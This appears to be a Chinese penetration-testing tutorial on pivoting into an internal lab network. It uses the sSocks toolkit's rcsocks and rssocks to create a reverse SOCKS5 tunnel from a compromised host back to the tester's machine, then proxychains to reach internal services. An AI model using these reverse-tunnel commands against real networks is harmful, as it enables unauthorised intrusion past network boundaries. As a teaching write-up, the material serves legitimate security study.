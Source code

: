[Socks代理反弹突破内网](http://www.freebuf.com/articles/system/12182.html) 


#### sSocks

> sSocks是一个socks代理工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，其最新版为0.0.13，可在以下链接处下载

[sourceforge.net/projects/ssocks](https://sourceforge.net/projects/ssocks/)

下载解压后，执行命令编译。
```
./configure && make
```

编译完成，进入src目录，会发现有nsocks、ssocksd、ssocks、rcsocks，其功能说明介绍如下：

程序   | 功能
---|---
nsocks | 类似通过Socks5代理后的netcat，可用来测试socks server
ssocksd| 用来开启Socks5代理服务
ssocks |本地启用Socks5服务，并反弹到另一IP地址
rcsocks|接收反弹过来的Socks5服务，并转向另一端口

#### 模拟网络环境说明

> 本文模拟的网络环境见下图1，渗透测试端IP为192.168.10.50，内网区域IP段192.168.206.0/24，内网区域能正常访问192.168.10.0/24，现假设已获得192.168.206.130权限。 

![](images/图1.jpg)

1、 本地监听端口

在渗透测试端192.168.10.50执行

```
./rcsocks -l 1088 -p 1080 -vv
```

等待远程Socks5服务器访问本地1080端口，创建端口1080与本地端口1088的连接通道

2、开启Socks5代理服务，反弹在192.168.206.130上执行

```
./rssocks -vv -s 192.168.10.50:1080
```

启用Socks5服务，反弹到192.168.10.50的端口1080上，如图3，此时在渗透测试端192.168.10.50可看到通道连接成功

#### 利用proxychains进行Socks5代理

通过前面的步骤，Socks5代理已创建完成了。由于在渗透测试过程中，需要使用不同的工具程序，而在各程序中分别配置Socks5代理信息较为繁琐，而部分程序并不支持配置Socks5代理。为了简化这些操作，我们可以采用proxychains。

proxychains是一个代理客户端软件，可以支持几乎所有程序的代理，如ssh，telnet，ftp等。利用proxychains，程序能在代理的环境下被加载运行，而本身不需要具备代理功能。使用前需要对proxychains进行简单配置，打开配置文件proxychains.conf（在BT5位于/etc/proxychains.conf），如图5所示，在[ProxyList]处添加
socks5 127.0.0.1 1088

配置成功后若要启动程序，仅需要在启动程序命令前加上proxychains
```
proxychains firefox
```
firefox启动成功，访问192.168.206.135的web服务如图6，通过代理访问成功